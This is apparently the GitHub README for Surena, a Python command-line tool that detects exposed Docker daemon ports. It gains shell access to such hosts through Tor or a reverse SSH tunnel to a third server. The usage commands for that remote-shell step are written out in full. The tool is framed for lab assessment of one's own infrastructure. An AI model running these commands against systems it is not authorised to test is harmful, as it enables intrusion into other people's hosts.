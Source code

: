 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling. To explain how Surena works and how to use these methods, we have written an article on Medium that you can read by following this link: [article](https://medium.com/@norouzzadegan/69628c4be503).

## Installation

You can install Surena from PyPI by running the following command:

```bash
pip install surena
```

Once installed, you can run Surena using the following commands in your terminal. To view the available commands and options, use:

```bash
surena --help
```
## Using
Surena has two commands: `is-docker-host` and `get-docker-host`. The `is-docker-host` command is used for checking if the Docker daemon's port is accessible from the network. To understand its options, run the following command:

```bash
surena is-docker-host --help
```

For example, you can run this command with the following options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run the following command:

```bash
surena get-docker-host --help
```
Please note, if Surena can gain shell access from the Docker host, it will create a text file named "WARNING.surena" in the "/root/" path of the Docker host.
For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` should be replaced with the appropriate values.

## Warning
Surena is intended for lab use and for understanding whether your Docker daemon is secure or insecure. 
PLEASE DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.

## Donate
If Surena has helped you secure your infrastructure, particularly those utilizing Docker daemons over the network, we would be thrilled if you could consider supporting us by donating Dogecoin, Our Dogecoin wallet address for donations is: ‍‍```DRizEG8R6wW2cW5MNEAnERMMEMq6wupQMA```
